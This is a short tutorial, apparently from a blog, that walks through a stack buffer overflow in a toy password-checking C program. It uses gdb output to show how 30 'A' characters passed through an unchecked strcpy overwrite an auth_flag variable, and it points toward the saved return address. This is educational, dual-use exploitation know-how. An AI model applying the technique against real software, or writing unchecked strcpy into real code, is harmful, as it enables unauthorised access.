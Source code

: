 'authentication.c' is so simple and looks like granting access only the case of
entering "brillig" or "outgrabe" as an argument.  
But by entering 30 times of 'A', we can exploit this program.  
Let's take a look why this happens.  
```
/*
 * compiled with -fno-stack-protector option
 * set breakpoint at strcpy(password_buffer, password);
 * (gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 */
 
(gdb) print &auth_flag  
$1 = (int *) 0x7fffffffdf3c  
(gdb) print &password_buffer  
$2 = (char (*)[16]) 0x7fffffffdf20  
```
By debugging the program, we can find the address of auth_flag is 28 bytes after than password_buffer.    
Since strcpy() does not check boundary, if we give more than 28 bytes(not too much)length of any string as argument, auth_flag will be set to nonzero.
```
/*
 * set breakpoint at return auth_flag;
 * (gdb) c  //abbreviation of continue
 */
(gdb) x/16xw password_buffer
0x7fffffffdf20 : 0x41414141 0x41414141  0x41414141  0x41414141
0x7fffffffdf30 : 0x41414141 0x41414141  0x41414141  0x00004141
0x7fffffffdf40 : 0xffffdf60 0x00007fff  0x5555481e  0x00005555
0x7fffffffdf50 : 0xffffe048 0x00007fff  0x00000000  0x00000002
(gdb) x/u &auth_flag
0x7fffffffdf3c: 16705 // 0x4141 in hex
```
Variable auth_flag is located at 0x7ffffffffdf3c~f(in bold) and it is overwritten to 16705.   
Since this machine is little endian, rightmost 41 is 0x7fffffffdf3c.    
So access will be granted, because any nonzero number is considered as true. This is basic concept of stack overflow.  
  
Here, we have to focus the value of 0x7fffffffdf48~f(in italic).  
```
(gdb) disass main
...
0x0000555555554819 <+72>:  call 0x55555555476a <check_authentication>
0x000055555555481e <+77>:  test eax,eax
...
```
_0x000055555555481e_ is return adress when function check_authentication is end.   
  

